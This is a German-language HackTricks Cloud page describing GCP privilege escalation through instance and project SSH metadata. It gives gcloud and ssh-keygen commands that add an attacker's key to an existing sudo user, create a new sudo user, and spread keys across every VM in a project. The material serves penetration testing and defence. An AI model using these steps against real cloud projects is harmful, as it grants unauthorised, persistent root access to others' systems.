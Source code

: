 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Modifikation von Metadaten auf einer Instanz könnte zu **signifikanten Sicherheitsrisiken führen, wenn ein Angreifer die notwendigen Berechtigungen erlangt**.

#### **Incorporation of SSH Keys into Custom Metadata**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein kritischer Bestandteil davon ist der [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig** den Metadaten-Endpunkt der Instanz auf **Updates der autorisierten SSH-Öffentlichen Schlüssel** zu überprüfen.

Wenn ein Angreifer also die benutzerdefinierten Metadaten ändern kann, könnte er den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und **in das lokale System integriert** wird. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise wird ein neuer Benutzer mit `sudo`-Rechten erstellt**, abhängig vom Format des Schlüssels. Und der Angreifer wird in der Lage sein, den Host zu kompromittieren.

#### **Add SSH key to existing privileged user**

1. **Untersuche vorhandene SSH-Schlüssel auf der Instanz:**
*   Führe den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben, um vorhandene SSH-Schlüssel zu finden. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell dem Schlüssel `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Achte auf das Format der SSH-Schlüssel: Der Benutzername steht vor dem Schlüssel, getrennt durch einen Doppelpunkt.
2. **Bereite eine Textdatei für SSH-Schlüssel-Metadaten vor:**
* Speichere die Details der Benutzernamen und ihrer entsprechenden SSH-Schlüssel in einer Textdatei namens `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten, während neue hinzugefügt werden.
3. **Generiere einen neuen SSH-Schlüssel für den Zielbenutzer (`alice` in diesem Beispiel):**
*   Verwende den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei sichergestellt wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Füge den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, indem du das Format nachahmst, das in den Metadaten der Instanz gefunden wurde.
4. **Aktualisiere die SSH-Schlüssel-Metadaten der Instanz:**
*   Wende die aktualisierten SSH-Schlüssel-Metadaten auf die Instanz an, indem du den Befehl `gcloud compute instances add-metadata` verwendest.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Greife mit dem neuen SSH-Schlüssel auf die Instanz zu:**
*   Verbinde dich mit SSH zur Instanz unter Verwendung des neuen Schlüssels und greife auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Rechte gegeben werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den Zugriff auf SSH für mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet werden**. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht ausdrücklich die projektweiten SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
*   Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel in allen VMs des Projekts erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instanzen mit projektweiten Schlüsseln:**
* Mit den projektweiten SSH-Schlüsseln können Sie in jede Instanz innerhalb des Projekts SSH-en. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
* Eine direkte Methode, um in eine Instanz SSH zu gelangen, ist die Verwendung des Befehls `gcloud compute ssh [INSTANCE]`. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.

## Referenzen

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
